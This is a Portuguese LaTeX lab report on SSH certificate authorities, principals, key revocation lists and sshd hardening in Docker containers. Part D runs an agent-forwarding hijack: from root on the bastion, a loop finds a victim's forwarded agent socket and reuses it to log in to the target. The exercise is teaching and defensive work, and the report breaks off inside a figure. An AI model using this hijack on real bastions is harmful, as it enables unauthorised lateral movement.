O prompt do Alpine n\~ao traz \cmd{user@host}, por isso o \cmd{whoami}/\cmd{id} \'e parte
da prova: \cmd{dev} (uid 1001, sem grupo administrativo), \cmd{\$HOME} em
\file{/home/dev}, e o host \'e o contentor \cmd{target} (\cmd{1a097db4c2a2}), n\~ao o
\cmd{jump} (\cmd{d8a639e4d40d}). O mesmo comando no hop:

\begin{lstlisting}
d8a639e4d40d:~$ hostname
d8a639e4d40d
\end{lstlisting}

Dois \emph{ids} diferentes provam que \cmd{-J} \'e um primeiro login no \cmd{jump} e um
segundo login no \cmd{target} --- n\~ao um t\'unel. \'E essa separa\c{c}\~ao que, na Parte
D, explica porque \cmd{-A} \'e perigoso e \cmd{-J} n\~ao.

\begin{answer}{1a.}
O \cmd{target} passou a confiar na chave porque um administrador copiou
\cmd{id\_dev.pub} para \file{/home/dev/.ssh/authorized_keys} --- um acto de
\emph{provisionamento}, por host e por utilizador, sem qualquer canal de confian\c{c}a
entre eles. A cem hosts e cem utilizadores s\~ao dez mil c\'opias, e revogar uma chave
obriga a tocar em todos os hosts. \'E este o primeiro problema que o certificado resolve:
a confian\c{c}a passa a ser ``este host confia numa CA'' e a CA emite credenciais de vida
curta, uma por identidade, sem tocar nos hosts.

O segundo problema aparece na primeira liga\c{c}\~ao: foram aceites dois fingerprints
(\cmd{jump} e \cmd{target}) que n\~ao havia forma de verificar. A aceita\c{c}\~ao cega
exp\~oe ao ataque de homem-no-meio exactamente na primeira sess\~ao (e em qualquer
reinstala\c{c}\~ao, porque os contentores geram novas chaves de host). N\~ao escala pela
mesma raz\~ao que as chaves cruas: a verifica\c{c}\~ao exige um canal fora de banda, por
host. A resposta \'e o espelho dos certificados de utilizador: certificados de
\emph{host} (\cmd{ssh-keygen -h}, \cmd{HostCertificate}, \cmd{@cert-authority}), extens\~ao
opcional que n\~ao foi avaliada.
\end{answer}

\subsection{Parte B --- a CA SSH: autentica\c{c}\~ao, autoriza\c{c}\~ao, revoga\c{c}\~ao}

\subsubsection{Exerc\'icio 2 --- emiss\~ao e inspec\c{c}\~ao do certificado}

\begin{lstlisting}
ssh-keygen -s ~/.ssh/user_ca -I 'student@lab5' -n dev -z 1 -V +1h ~/.ssh/id_dev.pub
Signed user key /home/student/.ssh/id_dev-cert.pub: id "student@lab5" serial 1
  for dev valid from 2026-10-21T11:47:00 to 2026-10-21T12:48:04
ssh-keygen -Lf ~/.ssh/id_dev-cert.pub
\end{lstlisting}

\begin{lstlisting}
/home/student/.ssh/id_dev-cert.pub:
        Type: ssh-ed25519-cert-v01@openssh.com user certificate
        Public key: ED25519-CERT SHA256:FFlmbuOG9Dq/IBdVrFj+vrarwqpp/0xxjk+gcp+4Vb0
        Signing CA: ED25519 SHA256:EiNe5euwxL6pbCHJFHdOye6CnE4vtnCyMUkycBmBfvo (using ssh-ed25519)
        Key ID: "student@lab5"
        Serial: 1
        Valid: from 2026-10-21T11:47:00 to 2026-10-21T12:48:04
        Principals:
                dev
        Critical Options: (none)
        Extensions:
                permit-X11-forwarding
                permit-agent-forwarding
                permit-port-forwarding
                permit-pty
                permit-user-rc
\end{lstlisting}

\begin{table}[H]
\centering\small
\caption{Certificado de utilizador \cmd{id\_dev} (inspeccionado com \cmd{ssh-keygen -Lf}).}
\begin{tabularx}{\linewidth}{@{}>{\bfseries\color{sscnblue}}l X@{}}
\toprule
Campo & Valor \\
\midrule
Key ID & \cmd{student@lab5} (escrito no log do sshd a cada uso) \\
Serial & 1 \\
Principals & \cmd{dev} \\
Validity & 11:47:00 $\rightarrow$ 12:48:04 (61 min; o in\'icio \'e ancorado ao segundo de
assinatura e o fim leva a margem de desvio de rel\'ogio do \cmd{ssh-keygen}) \\
Critical Options & \emph{none} \\
Extensions & \cmd{permit-X11-forwarding}, \cmd{permit-agent-forwarding},
\cmd{permit-port-forwarding}, \cmd{permit-pty}, \cmd{permit-user-rc} \\
Signing CA & \cmd{SHA256:EiNe5...Bfvo} $=$ fingerprint de \cmd{user\_ca.pub} \\
\bottomrule
\end{tabularx}
\end{table}

O campo \cmd{Signing CA} coincide com \cmd{ssh-keygen -lf ~/.ssh/user\_ca.pub}: a
invariante de \emph{uma s\'o} CA do laborat\'orio verifica-se, em vez de se assumir. Uma
segunda CA \'e a falha silenciosa cl\'assica --- os contentores confiam numa e os
certificados s\~ao assinados pela outra.

\begin{answer}{2a.}
A validade curta limita a \emph{janela} em que uma credencial roubada \'e \'util e retira
a necessidade de limpeza por host: expirado, o certificado \'e recusado por todos os hosts
que confiam na CA, sem interven\c{c}\~ao. N\~ao faz, por\'em, tr\^es coisas: n\~ao termina
uma sess\~ao j\'a aberta, n\~ao revoga antes do fim, e n\~ao distingue uma chave roubada
de uma leg\'itima. Comparado com rodar uma chave distribu\'ida por
\cmd{authorized\_keys} em todos os hosts, reemitir na expira\c{c}\~ao \'e a opera\c{c}\~ao
normal de uma CA.
\end{answer}

\emph{Nota para a Parte D:} a extens\~ao \cmd{permit-agent-forwarding} \'e uma
\emph{permiss\~ao do certificado}, n\~ao do servidor. Assinar com
\cmd{-O clear -O permit-pty ...} retira-a, e nesse caso o pr\'oprio certificado impede o
encaminhamento do agente mesmo num host onde \cmd{sshd\_config} o permita.

\subsubsection{Exerc\'icio 3 --- o \cmd{target} passa a confiar na CA}

\begin{lstlisting}
docker compose exec -T target sh -c '
  grep -q "^TrustedUserCAKeys" /etc/ssh/sshd_config \
    || echo "TrustedUserCAKeys /etc/ssh/user_ca.pub" >> /etc/ssh/sshd_config
  rm -f /home/dev/.ssh/authorized_keys
  /usr/sbin/sshd -t && echo CONFIG-OK && kill -HUP 1'

docker compose exec -T target grep -n TrustedUserCAKeys /etc/ssh/sshd_config
33:TrustedUserCAKeys /etc/ssh/user_ca.pub
docker compose exec -T target sshd -T | grep -i trustedusercakeys
trustedusercakeys /etc/ssh/user_ca.pub
docker compose exec -T target ls -la /home/dev/.ssh/
drwx------  2 dev dev 4096 Oct 21 10:52 .
-rw-r--r--  1 dev dev   86 Oct 21 10:45 known_hosts
\end{lstlisting}

As linhas 5 e 12 do ficheiro s\~ao os \emph{coment\'arios} que mencionam a directiva; o
\cmd{grep} conta-as, o \cmd{sshd -T} n\~ao. Com o \cmd{authorized\_keys} removido, o login
seguinte s\'o pode vir do certificado, e o log do servidor confirma-o:

\begin{lstlisting}
Accepted publickey for dev from 172.18.0.3 port 39248 ssh2: ED25519-CERT
  SHA256:FFlmbuOG9Dq/IBdVrFj+vrarwqpp/0xxjk+gcp+4Vb0 ID student@lab5 (serial 1)
  CA ED25519 SHA256:EiNe5euwxL6pbCHJFHdOye6CnE4vtnCyMUkycBmBfvo
\end{lstlisting}

Uma linha com tipo de chave, fingerprint, \cmd{ID}, \cmd{serial} e fingerprint da CA: o
\cmd{target} verificou uma assinatura da CA sobre uma chave que nunca tinha visto.
Repare-se tamb\'em no \cmd{from 172.18.0.3}: atrav\'es de \cmd{-J} o \cmd{target} s\'o
v\^e o \cmd{jump}, nunca o endere\c{c}o real do cliente --- o que na Parte D torna o
atacante indistingu\'ivel do utilizador leg\'itimo nos logs.

\file{/etc/ssh/user_ca.pub} aparece como \cmd{-rw-r--r-- ops dev}, n\~ao \cmd{root}: \'e
o bind mount de \file{/home/student/.ssh/user_ca.pub}, e o uid 1000 da VM mapeia no
contentor para \cmd{ops}, a primeira conta criada pela imagem. O \cmd{sshd} aceita-o por
ser \cmd{644}; se fosse grupo/outros-escrevível seria recusado --- a mesma armadilha de
propriedade que o README assinala para \file{/etc/ssh/auth_principals/}.

\begin{answer}{3a.}
Sem \cmd{AuthorizedPrincipalsFile}, a regra impl\'icita do \cmd{sshd} \'e comparar os
principals do certificado com o \emph{nome da conta pedida}. O certificado tem o principal
\cmd{dev}, portanto \cmd{dev@target} entra e \cmd{ops@target} n\~ao. O cliente s\'o v\^e
um pedido de password (a config ainda aceita password) e, ap\'os o Ex.\ 6,
\cmd{Permission denied (publickey)}; o motivo est\'a apenas no log do servidor:

\begin{lstlisting}
Refusing certificate ID "student@lab5" serial=1 signed by ED25519 CA
  SHA256:EiNe5...Bfvo: Certificate invalid: name is not a listed principal
\end{lstlisting}

Ou seja, existia j\'a uma pol\'itica, s\'o que impl\'icita e n\~ao inspeccion\'avel: o nome
do principal tem de coincidir com o nome da conta.
\end{answer}

\subsubsection{Exerc\'icio 4 --- autoriza\c{c}\~ao por \emph{principals}}

\begin{lstlisting}
docker compose exec -T target sshd -T | grep -i authorizedprincipalsfile
authorizedprincipalsfile none                       # antes

docker compose exec -T target sh -c '
  mkdir -p /etc/ssh/auth_principals
  printf "dev\n" > /etc/ssh/auth_principals/dev
  printf "ops\n" > /etc/ssh/auth_principals/ops
  chown root:root /etc/ssh/auth_principals /etc/ssh/auth_principals/*
  chmod 755 /etc/ssh/auth_principals; chmod 644 /etc/ssh/auth_principals/*
  grep -q "^AuthorizedPrincipalsFile" /etc/ssh/sshd_config \
    || echo "AuthorizedPrincipalsFile /etc/ssh/auth_principals/%u" >> /etc/ssh/sshd_config
  /usr/sbin/sshd -t && kill -HUP 1'

docker compose exec -T target sshd -T | grep -i authorizedprincipalsfile
authorizedprincipalsfile /etc/ssh/auth_principals/%u   # depois
docker compose exec -T target ls -ln /etc/ssh/auth_principals
-rw-r--r--    1 0        0                4 dev
-rw-r--r--    1 0        0                4 ops
\end{lstlisting}

O \cmd{ls -ln} \'e deliberado: numericamente \cmd{0 0} \'e \cmd{root} e \cmd{1000} \'e
\cmd{ops}, pelo que os nomes enganam. Dono \cmd{root}, modo \cmd{644}, direct\'orio
\cmd{755} --- o que o \cmd{sshd} exige; um bind mount da VM mostraria \cmd{1000} e o
\cmd{sshd} registaria \cmd{bad ownership or modes}, ignorando o ficheiro.

Segundo certificado, a partir do segundo par de chaves:

\begin{lstlisting}
ssh-keygen -s ~/.ssh/user_ca -I 'student-ops' -n ops -z 2 -V +1h ~/.ssh/id_ops.pub
Signed user key /home/student/.ssh/id_ops-cert.pub: id "student-ops" serial 2
  for ops valid from 2026-10-21T11:55:00 to 2026-10-21T12:56:15
\end{lstlisting}

\begin{lstlisting}
/home/student/.ssh/id_ops-cert.pub:
        Type: ssh-ed25519-cert-v01@openssh.com user certificate
        Public key: ED25519-CERT SHA256:bq3YTE8n8tZHsnS2HooYNwMXYvkLcktkS/XUUgV9Nl4
        Signing CA: ED25519 SHA256:EiNe5euwxL6pbCHJFHdOye6CnE4vtnCyMUkycBmBfvo (using ssh-ed25519)
        Key ID: "student-ops"
        Serial: 2
        Valid: from 2026-10-21T11:55:00 to 2026-10-21T12:56:15
        Principals:
                ops
        Critical Options: (none)
        Extensions:
                permit-X11-forwarding
                permit-agent-forwarding
                permit-port-forwarding
                permit-pty
                permit-user-rc
\end{lstlisting}

Mesma CA, principal e serial diferentes; os dois ficheiros coexistem
(\cmd{id\_dev-cert.pub} e \cmd{id\_ops-cert.pub}) porque se usaram dois pares de chaves.
O comando de assinatura foi executado duas vezes e a segunda \emph{substituiu} o
certificado de \cmd{ops} --- inofensivo aqui (mesmo \cmd{-n} e \cmd{-z}), mas \'e a
armadilha documentada: \cmd{-s} escreve ao lado da chave p\'ublica, pelo que reexecutar
com outro \cmd{-n}/\cmd{-z} apaga silenciosamente o anterior.

\begin{table}[H]
\centering\small
\caption{Ex.\ 4 --- as tr\^es tentativas, com o log do servidor em paralelo.}
\begin{tabularx}{\linewidth}{@{}l X@{}}
\toprule
\textbf{Comando} & \textbf{Resultado / raz\~ao no log do \cmd{target}} \\
\midrule
\cmd{id\_dev} $\rightarrow$ \cmd{ops} & pedido de password (certificado recusado, com
  fallback para password); Ctrl-C. Log: \cmd{Refusing certificate ID "student@lab5"
  serial=1 ...: Certificate does not contain an authorized principal} \\
\cmd{id\_dev} $\rightarrow$ \cmd{dev} & entra como \cmd{dev}; \cmd{Accepted publickey
  ... (serial 1)} \\
\cmd{id\_ops} $\rightarrow$ \cmd{ops} & entra como \cmd{ops}; \cmd{Accepted publickey
  ... (serial 2)} \\
\bottomrule
\end{tabularx}
\end{table}

Dois pormenores que importam. Primeiro, o \emph{modo de falha} \'e um pedido de password,
n\~ao \cmd{Permission denied}: antes do Ex.\ 6 o \cmd{sshd} ainda oferece
\cmd{password}/\cmd{keyboard-interactive}, pelo que um certificado recusado \'e seguido de
uma tentativa de password. Qualquer pedido de password aqui significa ``o certificado foi
recusado''. Segundo, as duas mensagens de recusa \emph{n\~ao} s\~ao iguais ---

\begin{center}\small
\begin{tabular}{@{}ll@{}}
\toprule
Configura\c{c}\~ao & Raz\~ao do \cmd{sshd} \\
\midrule
sem \cmd{AuthorizedPrincipalsFile} (3a) & \cmd{Certificate invalid: name is not a listed principal} \\
com \cmd{AuthorizedPrincipalsFile} (4a) & \cmd{Certificate does not contain an authorized principal} \\
\bottomrule
\end{tabular}
\end{center}

--- logo o log revela \emph{que mecanismo} recusou, mas n\~ao \emph{o que a pol\'itica diz};
para isso s\'o o \cmd{sshd -T | grep authorizedprincipalsfile}.

\begin{answer}{4b.}
A \textbf{CA} decidiu \emph{quem a chave representa} (autentica\c{c}\~ao: principal,
serial, validade, assinatura). O \textbf{\cmd{AuthorizedPrincipalsFile}} decidiu
\emph{que conta esse principal pode assumir} (autoriza\c{c}\~ao). Duas decis\~oes, dois
ficheiros, dois donos: quem opera a CA n\~ao deve ser quem escreve a pol\'itica local.
Para nomes coincidentes o resultado n\~ao muda face a 3a --- o certificado de \cmd{ops}
tamb\'em passaria na regra impl\'icita. O que muda \'e que a autoriza\c{c}\~ao passa a ser
um ficheiro inspect\'avel, capaz de exprimir \cmd{principal X $\rightarrow$ conta Y} com
$X\neq Y$, coisa que a regra impl\'icita n\~ao consegue.
\end{answer}

\subsubsection{Exerc\'icio 5 --- revoga\c{c}\~ao com uma KRL}

\begin{lstlisting}
ssh-keygen -k -f ~/revoked_keys ~/.ssh/id_ops-cert.pub
Revoking from /home/student/.ssh/id_ops-cert.pub
ssh-keygen -Qf ~/revoked_keys ~/.ssh/id_ops-cert.pub
/home/student/.ssh/id_ops-cert.pub (lab5 ops identity): REVOKED
ssh-keygen -Qf ~/revoked_keys ~/.ssh/id_dev-cert.pub
/home/student/.ssh/id_dev-cert.pub (lab5 dev identity): ok
docker cp ~/revoked_keys target:/etc/ssh/revoked_keys
docker compose exec -T target sh -c '
  grep -q "^RevokedKeys" /etc/ssh/sshd_config \
    || echo "RevokedKeys /etc/ssh/revoked_keys" >> /etc/ssh/sshd_config
  /usr/sbin/sshd -t && kill -HUP 1'
docker compose exec -T target sshd -T | grep -i revokedkeys
revokedkeys /etc/ssh/revoked_keys
\end{lstlisting}

O \cmd{-Qf} nomeia a chave \emph{e} o coment\'ario (\cmd{(lab5 ops identity)}): a KRL
identifica a credencial pelo serial e pela CA, n\~ao pelo nome do ficheiro. O \cmd{ok}
para o certificado de \cmd{dev} \'e o controlo que mostra que a KRL \'e dirigida, n\~ao
uma recusa global. Copiar o ficheiro n\~ao bastou --- foi a directiva \cmd{RevokedKeys}
que fez o \cmd{sshd} l\^e-lo, e o \cmd{sshd -T} confirma a directiva, n\~ao a presen\c{c}a
do ficheiro.

\begin{table}[H]
\centering\small
\caption{Ex.\ 5a --- depois da revoga\c{c}\~ao.}
\begin{tabularx}{\linewidth}{@{}l X@{}}
\toprule
\textbf{Comando} & \textbf{Resultado / log} \\
\midrule
\cmd{id\_ops} $\rightarrow$ \cmd{ops} & pedido de password; Ctrl-C. Log:
  \cmd{Authentication key ED25519-CERT SHA256:bq3YTE8n8... revoked by file
  /etc/ssh/revoked\_keys} \\
\cmd{id\_dev} $\rightarrow$ \cmd{dev} & entra; \cmd{Accepted publickey ... (serial 1)} \\
\bottomrule
\end{tabularx}
\end{table}

A linha \cmd{revoked by file} nomeia a \emph{fingerprint da chave do certificado}
(\cmd{bq3YTE...}, a do certificado de \cmd{ops}) e o ficheiro que recusou; a linha de
\cmd{dev} tem outra fingerprint e outro serial. Uma entrada na KRL, uma credencial morta,
a outra intacta. E o cliente viu apenas \cmd{ops@target's password:} --- revoga\c{c}\~ao,
expira\c{c}\~ao, principal errado e aus\^encia de certificado s\~ao
\emph{indistingu\'iveis do lado do cliente}; s\'o o log do servidor as separa.

\begin{answer}{5b.}
\textbf{Assinatura da CA} --- autentica \emph{quem emitiu e para quem}; nunca caduca por
si. \textbf{\cmd{AuthorizedPrincipalsFile}} --- limita \emph{que conta}; pol\'itica local,
reavaliada em cada login. \textbf{Intervalo de validade} --- limita \emph{o tempo}; fixado
na emiss\~ao, \'e um tecto sobre a credencial. \textbf{KRL/\cmd{RevokedKeys}} --- limita
uma credencial \emph{j\'a emitida, agora}; expl\'icito e por certificado (pode tamb\'em
revogar uma CA ou uma chave).

N\~ao se obt\'em o efeito de 5a s\'o com vidas curtas porque n\~ao se pode encurtar um
certificado j\'a assinado: ap\'os uma fuga, a credencial continua v\'alida at\'e ao seu
fim, e esperar pelo intervalo \'e precisamente o que o atacante quer. S\'o a revoga\c{c}\~ao
age imediatamente sobre uma credencial nomeada. A tabela seguinte, constru\'ida com as
observa\c{c}\~oes deste laborat\'orio, mostra porque \'e que o cliente nunca serve de
prova:

\begin{center}\small
\begin{tabularx}{\linewidth}{@{}>{\raggedright\arraybackslash}p{3.2cm} X@{}}
\toprule
\textbf{Causa} & \textbf{Cliente / log do \cmd{target}} \\
\midrule
expirado & \cmd{Permission denied (publickey)} / \cmd{Certificate invalid: expired} \\
revogado & idem / \cmd{... revoked by file /etc/ssh/revoked\_keys} \\
principal n\~ao permitido & idem (ou pedido de password antes do Ex.\ 6) /
  \cmd{Certificate does not contain an authorized principal} \\
sem certificado & idem / nenhuma linha de certificado \\
\bottomrule
\end{tabularx}
\end{center}
\end{answer}

\subsection{Parte C --- hardening do \cmd{sshd} (Exerc\'icio 6)}

O ficheiro fornecido escreve os \emph{defaults} de forma activa, no topo. Acrescentaram-se
as cinco directivas ao fim, como o enunciado pede:

\begin{lstlisting}
PasswordAuthentication no
PermitRootLogin no
PubkeyAuthentication yes
KbdInteractiveAuthentication no
AuthenticationMethods publickey
\end{lstlisting}

\cmd{sshd -t} n\~ao disse nada e o reload passou --- e \'e isso que engana. A
configura\c{c}\~ao efectiva diz outra coisa:

\begin{lstlisting}
docker compose exec -T target sshd -T | grep -iE \
  -e '^passwordauthentication|^permitrootlogin|^kbdinteractiveauthentication' \
  -e '^pubkeyauthentication|^authenticationmethods'

permitrootlogin prohibit-password
pubkeyauthentication yes
passwordauthentication yes
kbdinteractiveauthentication yes
authenticationmethods publickey
\end{lstlisting}

Os testes de comportamento, com quatro das cinco linhas inertes:

\begin{lstlisting}
ssh -o PreferredAuthentications=password -J jump dev@target
dev@target: Permission denied (publickey).
ssh -J jump -i ~/.ssh/id_dev dev@target
1a097db4c2a2:~$
\end{lstlisting}

\begin{table}[H]
\centering\small
\caption{Ex.\ 6a --- as tr\^es contagens (s\~ao n\'umeros diferentes).}
\begin{tabularx}{\linewidth}{@{}X c X@{}}
\toprule
\textbf{Quest\~ao} & \textbf{Valor} & \textbf{Quais} \\
\midrule
das 5 defini\c{c}\~oes pretendidas, em vigor & \textbf{2/5} &
  \cmd{pubkeyauthentication yes} (linha original) e \cmd{authenticationmethods publickey}
  (linha acrescentada) \\
das linhas escritas/editadas que o daemon obedece & \textbf{1/5} &
  \cmd{AuthenticationMethods} \\
linhas escritas/editadas inertes & \textbf{4/5} &
  \cmd{PasswordAuthentication}, \cmd{PermitRootLogin}, \cmd{PubkeyAuthentication},
  \cmd{KbdInteractiveAuthentication} --- todas duplicadas depois do bloco do topo \\
\bottomrule
\end{tabularx}
\end{table}

A causa: o ficheiro j\'a fixa quatro das cinco palavras-chave \emph{acima} do bloco
acrescentado, e o \cmd{sshd\_config(5)} diz que, salvo indica\c{c}\~ao em contr\'ario,
\emph{prevalece o primeiro valor obtido} para cada palavra-chave. As linhas duplicadas
s\~ao lidas e ignoradas; s\'o \cmd{AuthenticationMethods}, ausente do ficheiro original,
produz efeito. O \cmd{sshd -t} valida a sintaxe, n\~ao a preced\^encia --- da\'i o sil\^encio.

A correc\c{c}\~ao edita a \emph{primeira} ocorr\^encia e remove as duplicadas mortas, para
que ficheiro e daemon coincidam linha a linha:

\begin{lstlisting}
docker compose exec -T target sh -c '
  sed -i -e "s/^PasswordAuthentication yes/PasswordAuthentication no/" \
         -e "s/^PermitRootLogin prohibit-password/PermitRootLogin no/" \
         -e "s/^KbdInteractiveAuthentication yes/KbdInteractiveAuthentication no/" \
         /etc/ssh/sshd_config
  awk "{ k=$1; if (k ~ /^(PasswordAuthentication|PubkeyAuthentication|PermitRootLogin|KbdInteractiveAuthentication|AuthenticationMethods)$/ && seen[k]++) next; print }" \
      /etc/ssh/sshd_config > /tmp/sshd_config.clean \
      && cat /tmp/sshd_config.clean > /etc/ssh/sshd_config
  /usr/sbin/sshd -t && kill -HUP 1'
\end{lstlisting}

O \cmd{awk} mant\'em a primeira ocorr\^encia de cada uma das cinco palavras-chave e
descarta as seguintes --- a mesma regra que o \cmd{sshd} aplica. Resultado:

\begin{lstlisting}
permitrootlogin no
pubkeyauthentication yes
passwordauthentication no
kbdinteractiveauthentication no
authenticationmethods publickey
\end{lstlisting}

Cinco de cinco em vigor, quatro linhas editadas e uma acrescentada obedecidas, zero
inertes.

\begin{answer}{Previs\~ao (pedida em 6a).}
Tivesse eu acrescentado as cinco linhas ao fim, sem corrigir as do topo, o
\cmd{sshd -T} mostraria exactamente o bloco quebrado acima --- \cmd{yes},
\cmd{prohibit-password}, \cmd{yes}, \cmd{yes} e \cmd{publickey}. Raz\~ao: o
\cmd{sshd\_config(5)} determina que ``for each keyword, the first obtained value will be
used'', e o cabe\c{c}alho do pr\'oprio ficheiro explica que os defaults foram escritos por
extenso justamente para que ficheiro e \cmd{sshd -T} concordem antes de qualquer altera\c{c}\~ao.
\'E essa coincid\^encia inicial que torna a armadilha invis\'ivel ao \cmd{sshd -t}.
\end{answer}

\begin{answer}{Que directiva retirou a password da lista.}
\cmd{AuthenticationMethods publickey} --- \'e ela que define o \emph{conjunto} de m\'etodos
permitidos, pelo que o servidor anuncia s\'o \cmd{publickey}. A precis\~ao importa:
\cmd{PasswordAuthentication no} retira o m\'etodo \cmd{password} mas deixa
\cmd{keyboard-interactive} (o PAM ainda pode pedir password);
\cmd{KbdInteractiveAuthentication no} retira essa via; \cmd{AuthenticationMethods} cobre
ambas.

O teste de password n\~ao podia provar o resto da baseline: falhou \emph{igual} com
quatro linhas inertes, porque s\'o \cmd{AuthenticationMethods} estava a agir. A mensagem
\cmd{Permission denied (publickey)} lista um conjunto de um elemento e n\~ao diz nada sobre
\cmd{PermitRootLogin} (que continuava \cmd{prohibit-password}, admitindo root por
certificado) nem sobre as outras. S\'o o \cmd{sshd -T} mostra a baseline completa.
\end{answer}

\subsubsection{Configura\c{c}\~ao final do \cmd{target}}

\begin{lstlisting}
Port 22

# These are the defaults, written out so that this file and what `sshd -T`
# reports agree before you change anything.
PasswordAuthentication no
PubkeyAuthentication yes
PermitRootLogin no
KbdInteractiveAuthentication no
AuthorizedKeysFile .ssh/authorized_keys

# Needed by Part D (the agent-forwarding hijack, Exercises 7 and 8). Not part of
# the hardening exercises: leave it.
AllowAgentForwarding yes
TrustedUserCAKeys /etc/ssh/user_ca.pub
AuthorizedPrincipalsFile /etc/ssh/auth_principals/%u
RevokedKeys /etc/ssh/revoked_keys
AuthenticationMethods publickey
\end{lstlisting}

\begin{answer}{6b. Ranking.}
\begin{enumerate}
  \item \cmd{AuthenticationMethods publickey} --- fecha o \emph{password guessing} e o
    \emph{credential stuffing} em linha: deixa de existir qualquer via de password para
    for\c{c}ar.
  \item \cmd{PermitRootLogin no} --- fecha o login remoto directo de \cmd{root}: uma
    credencial de root roubada deixa de ser utiliz\'avel \`a dist\^ancia e o root passa a
    exigir escalada depois do login.
  \item \cmd{KbdInteractiveAuthentication no} --- fecha o pedido de password do PAM que
    sobrevive a \cmd{PasswordAuthentication no}, o cl\'assico ``desliguei as passwords e
    ele continua a pedir uma''.
\end{enumerate}
Escolheria primeiro \cmd{AuthenticationMethods publickey}: numa linha fecha as duas vias
de password e, ao contr\'ario dos interruptores individuais, n\~ao pode ser meio-aplicada
por uma duplicado posterior. \cmd{PubkeyAuthentication yes} \'e o default e n\~ao \'e uma
medida de hardening --- referi-lo faria uma invent\'ario, n\~ao um ranking.
\end{answer}

\begin{answer}{6c.}
Deixar \cmd{PasswordAuthentication} no default reabre um caminho de adivinha\c{c}\~ao e
\emph{credential stuffing} acess\'ivel pela rede para qualquer conta com password, devolvendo
ao atacante acesso inicial sem tocar na CA, na pol\'itica de principals ou em qualquer
chave.
\end{answer}

\subsection{Parte D --- o hijack do agente (Exerc\'icios 7 e 8)}

Reemitiu-se o certificado de \cmd{dev} e carregou-se a chave \emph{depois} (o
\cmd{ssh-add} s\'o apanha \cmd{<chave>-cert.pub} se este existir nesse momento):

\begin{lstlisting}
eval "$(ssh-agent -s)"; ssh-add ~/.ssh/id_dev
Agent pid 9588
Identity added: /home/student/.ssh/id_dev (lab5 dev identity)
Certificate added: /home/student/.ssh/id_dev-cert.pub (student@lab5)
\end{lstlisting}

O lado da v\'itima mant\'em a sess\~ao de forwarding aberta; o lado do atacante \'e uma
segunda liga\c{c}\~ao \`a VM, com um shell de root em \cmd{jump}
(\cmd{docker compose exec jump sh}, que representa o compromisso do basti\~ao):

\begin{lstlisting}
docker compose exec jump sh
/ # for s in /home/dev/.ssh/agent/s.*; do
>   if SSH_AUTH_SOCK=$s ssh-add -l >/dev/null 2>&1; then SOCK=$s; break; fi
> done
/ # echo "SOCK=$SOCK"
SOCK=/home/dev/.ssh/agent/s.nhVgl9EQFh.sshd.09omfgoFdf

/ # find / -name 'id_dev*' -type f 2>/dev/null; echo "[find done]"
[find done]

/ # SSH_AUTH_SOCK=$SOCK ssh-add -l
256 SHA256:FFlmbuOG9Dq/IBdVrFj+vrarwqpp/0xxjk+gcp+4Vb0 lab5 dev identity (ED25519)
256 SHA256:FFlmbuOG9Dq/IBdVrFj+vrarwqpp/0xxjk+gcp+4Vb0 lab5 dev identity (ED25519-CERT)

/ # SSH_AUTH_SOCK=$SOCK ssh dev@target
1a097db4c2a2:~$ whoami; hostname
dev
1a097db4c2a2
\end{lstlisting}

As duas fingerprints s\~ao iguais: mesma chave, a segunda com o certificado anexado
(\cmd{ED25519-CERT}). O \cmd{find} n\~ao devolveu nada --- a chave privada nunca saiu da
VM; o que existe no \cmd{jump} \'e \file{/home/dev/.ssh/authorized_keys}, cujo \emph{nome}
n\~ao corresponde a \cmd{id\_dev*}.

\begin{figure}[H]
\centering
\begin{minipage}[t]{0.49\textwidth}
\centering
\begin{tcolorbox}[colback=white,colframe=sscline,width=\textwidth,boxrule=0.5pt,arc=2pt,
                   left=4pt,right=4pt,top=4pt,bottom=4pt]

\includegraphics[width=\linewidth]{G05Ex7T1.png}
